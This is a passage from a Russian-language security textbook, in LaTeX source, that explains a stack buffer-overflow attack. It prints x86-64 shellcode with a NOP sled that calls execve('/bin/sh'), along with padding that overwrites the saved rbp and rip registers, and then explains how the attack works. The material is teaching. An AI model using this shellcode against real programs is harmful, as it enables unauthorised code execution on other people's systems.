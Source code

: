 Изменим программу для демонстрации, поместив в копируемую строку исполняемый код для вызова \texttt{/bin/sh}.
{ \small
\begin{verbatim}
...
int main() {
  char text[68] =
    // 28 байтов исполняемого кода
    "\x90" "\x90" "\x90"                // nop; nop; nop
    "\x48\x31" "\xD2"                   // xor %rdx, %rdx
    "\x48\x31" "\xF6"                   // xor %rsi, %rsi
    "\x48\xBF" "\xDC\xEA\xFF\xFF"
    "\xFF\x7F\x00\x00"                  // mov $0x7fffffffeadc,
                                        //   %rdi
    "\x48\xC7\xC0" "\x3B\x00\x00\x00"   // mov $0x3b, %rax
    "\x0F\x05"                          // syscall
    // 8 байтов строки /bin/sh
    "\x2F\x62\x69\x6E\x2F\x73\x68\x00"  // "/bin/sh\0"
    // 12 байтов заполнения и 16 байтов новых
    // значений сохраненных регистров
    "\x00\x00\x00\x00"                  // не занятые байты
    "\x00\x00\x00\x00"                  // unsigned distance
    "\x00\x00\x00\x00"                  // unsigned diff
    "\x50\xEB\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rbp=0x7fffffffeb50
    "\xC0\xEA\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rip=0x7fffffffeac0
    ;
  ...
  return hamming_distance(b1, b2, text, 68);
  ...
}
\end{verbatim} }

Код эквивалентен вызову функции \texttt{execve(``/bin/sh'', 0 0)} через системный вызов функции ядра Linux для запуска оболочки среды \texttt{/bin/sh}. При системном вызове нужно записать в регистр \texttt{rax} номер системной функции и в другие регистры процессора аргументы. Данный системный вызов с номером \texttt{0x3b} требует в качестве аргументов регистры \texttt{rdi} с адресом строки исполняемой программы, \texttt{rsi} и \texttt{rdx} с адресами строк параметров запускаемой программы и переменных среды. В примере в \texttt{rdi} записывается адрес \texttt{0x7fffffffeadc}, который указывает на строку \texttt{``/bin/sh''} в стеке после копирования. Регистры \texttt{rdx} и \texttt{rsi} обнуляются.

На рис. \ref{fig:stack-overflow} приведен стек с переполненным буфером, в результате которого записалось новое сохраненное значение \texttt{rip}, указывающее на заданный код в стеке.

Начальные инструкции \texttt{nop} с кодом \texttt{0x90} означают пустые операции. Часто точные значения адреса и структуры стека не известны, поэтому злоумышленник угадывает предполагаемый адрес стека. Вначале исполняемого кода создается массив из операций \texttt{nop} с надеждой, что предполагаемое значение стека, то есть требуемый адрес rip, попадет на эти операции, повысив шансы угадывания. Стандартная атака на переполнение буфера с исполнением кода также подразумевает последовательный перебор предполагаемых адресов для нахождения правильного адреса для \texttt{rip}.

